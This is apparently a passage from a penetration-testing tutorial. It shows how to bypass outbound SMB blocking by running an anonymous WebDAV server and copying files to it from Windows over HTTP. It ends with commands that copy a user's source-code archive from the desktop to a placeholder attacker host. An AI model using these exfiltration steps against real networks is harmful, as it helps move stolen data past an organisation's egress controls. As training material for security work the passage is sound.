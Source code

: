 -----
We previously discussed that companies usually allow outbound traffic using `HTTP` (TCP/80) and `HTTPS` (TCP/443) protocols. Commonly enterprises don't allow the SMB protocol (TCP/445) out of their internal network because this can open them up to potential attacks. 

An alternative is to run SMB over HTTP with `WebDav`. `WebDAV` is an extension of HTTP, the internet protocol that web browsers and web servers use to communicate with each other. The `WebDAV` protocol enables a webserver to behave like a fileserver, supporting collaborative content authoring. `WebDAV` can also use HTTPS.

When you use `SMB`, it will first attempt to connect using the SMB protocol, and if there's no SMB share available, it will try to connect using HTTP. 

- Configure the WebDav server

```bash
sudo pip3 install wsgidav cheroot
```

- Using the WebDav Python Module
```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

- Connecting to the Webdav share
```powershell
dir \\<webdav-ip>\DavWWWRoot
```

**Note:** `DavWWWRoot` is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.

You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder

- Uploading files using SMB
```powershell
copy C:\Users\John\Desktop\Sourecode.zip \\<webdav-ip>\DavWWWRoot\
copy C:\Users\John\Desktop\Sourecode.zip \\<webdav-ip>\sharefolder\
```

